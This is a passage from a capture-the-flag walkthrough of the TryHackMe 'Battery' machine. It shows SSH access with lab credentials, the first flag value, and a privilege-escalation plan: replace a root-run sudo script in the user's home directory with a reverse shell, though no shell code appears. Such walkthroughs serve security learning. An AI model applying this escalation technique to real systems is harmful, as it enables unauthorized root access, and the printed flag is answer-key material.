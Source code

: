 * Username: `cyber`
* Password: `super#secure&password!`

## Base flag

Now we can connect to the machine via SSH as user `cyber` and read the Base flag using the creds we just got (`cyber:super#secure&password!`):

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Battery/files]
└─$ ssh cyber@$IP
cyber@10.10.104.159's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)

[REDACTED]

Last login: Tue Nov 17 17:02:47 2020 from 192.168.29.248
cyber@ubuntu:~$ id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)
cyber@ubuntu:~$ ls
flag1.txt  run.py
cyber@ubuntu:~$ cat flag1.txt 
THM{6f7e4dd134e19af144c88e4fe46c67ea}

Sorry I am not good in designing ascii art :(
~~~

Base Flag: `THM{6f7e4dd134e19af144c88e4fe46c67ea}`

## Privilege Escalation

Now we need to escalate our privilege to obtain the other flags. I ran `sudo -l` to check my sudo permissions:

~~~
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
~~~

As you can see, we can run a python script named `run.py` located in our home directory, using `python3` as `root`. The file is owned by root and we don't have write access:

~~~
cyber@ubuntu:~$ ls -la run.py 
-rwx------ 1 root root 349 Nov 15  2020 run.py
~~~

But, it is located in our home directory, which means we can delete/move it and replace it with a reverse shell with the same name and it would be run as `root` using sudo and gain us a root shell.

